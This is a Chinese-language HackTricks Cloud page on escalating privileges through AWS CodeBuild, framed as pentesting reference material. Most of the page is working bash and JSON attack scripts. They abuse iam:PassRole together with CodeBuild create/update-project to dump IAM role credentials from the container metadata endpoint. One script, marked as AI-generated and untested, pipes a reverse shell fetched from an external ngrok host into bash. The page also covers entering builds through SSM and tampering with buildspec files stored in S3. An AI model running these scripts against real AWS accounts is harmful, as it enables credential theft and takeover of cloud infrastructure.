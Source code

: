 # AWS - Codebuild特权升级

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## codebuild

### `iam:PassRole`, `codebuild:CreateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

具有**`iam:PassRole`, `codebuild:CreateProject`和`codebuild:StartBuild`或`codebuild:StartBuildBatch`**权限的攻击者可以通过创建一个正在运行的Codebuild IAM角色来升级特权。

{% tabs %}
{% tab title="示例1" %}
```bash
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

JSON="{
\"name\": \"codebuild-demo-project\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/service-role/codebuild-CI-Build-service-role-2\"
}"


REV_PATH="/tmp/rev.json"

printf "$JSON" > $REV_PATH

# Create project
aws codebuild create-project --cli-input-json file://$REV_PATH

# Build it
aws codebuild start-build --project-name codebuild-demo-project

# Wait 3-4 mins until it's executed
# Then you can access the logs in the console to find the AWS role token in the output

# Delete the project
aws codebuild delete-project --name codebuild-demo-project
```
{% endtab %}

{% tab title="示例2" %}
{% code overflow="wrap" %}
```bash
# Generated by AI, not tested
# Create a buildspec.yml file with reverse shell command
echo 'version: 0.2
phases:
build:
commands:
- curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash' > buildspec.yml

# Create a new CodeBuild project with the buildspec.yml file
aws codebuild create-project --name reverse-shell-project --source type=S3,location=<S3_BUCKET_NAME>/buildspec.yml --artifacts type=NO_ARTIFACTS --environment computeType=BUILD_GENERAL1_SMALL,image=aws/codebuild/standard:5.0,type=LINUX_CONTAINER --service-role <YOUR_HIGH_PRIVILEGE_ROLE_ARN> --timeout-in-minutes 60

# Start a build with the new project
aws codebuild start-build --project-name reverse-shell-project

```
{% endcode %}
{% endtab %}
{% endtabs %}

**潜在影响：**直接提升到任何AWS codebuild角色。

{% hint style="warning" %}
在**Codebuild容器**中，文件`/codebuild/output/tmp/env.sh`包含访问**元数据凭证**所需的所有环境变量。

该文件包含**环境变量`AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`**，其中包含访问凭证的**URL路径**。它将类似于`/v2/credentials/2817702c-efcf-4485-9730-8e54303ec420`

将其添加到URL **`http://169.254.170.2/`**，您将能够转储角色凭证。

此外，它还包含**环境变量`ECS_CONTAINER_METADATA_URI`**，其中包含获取有关容器的**元数据信息的完整URL**。
{% endhint %}

### `iam:PassRole`，`codebuild:UpdateProject`，（`codebuild:StartBuild` | `codebuild:StartBuildBatch`）

就像在前一节中一样，如果您可以修改构建项目而不是创建它，您可以指定IAM角色并窃取令牌
```bash
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# You need to indicate the name of the project you want to modify
JSON="{
\"name\": \"<codebuild-demo-project>\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/service-role/codebuild-CI-Build-service-role-2\"
}"

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
**潜在影响：** 直接提升到任何AWS codebuild角色。

### ssm

如果拥有足够的权限来启动ssm会话，则可以进入正在构建的Codebuild项目。

codebuild项目需要设置断点：

<pre class="language-yaml"><code class="lang-yaml">phases:
pre_build:
commands:
- echo 进入pre_build阶段...
- echo "Hello World" > /tmp/hello-world
<strong>      - codebuild-breakpoint
</strong></code></pre>

然后：
```bash
aws codebuild batch-get-builds --ids <buildID> --region <region> --output json
aws ssm start-session --target <sessionTarget> --region <region>
```
有关更多信息，请查看[**文档**](https://docs.aws.amazon.com/codebuild/latest/userguide/session-manager.html)。

### S3构建规范文件

根据[**文档**](https://docs.aws.amazon.com/codebuild/latest/userguide/build-spec-ref.html)，可以将CodeBuild项目的**构建规范文件**（运行时将执行的代码）存储在**S3**存储桶中。

因此，如果攻击者对该文件具有写访问权限，他可以**更改命令**以窃取CodeBuild项目的**IAM角色**的凭据，并升级权限。

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您希望在HackTricks中看到您的**公司广告**，或者如果您想访问**PEASS的最新版本或下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>
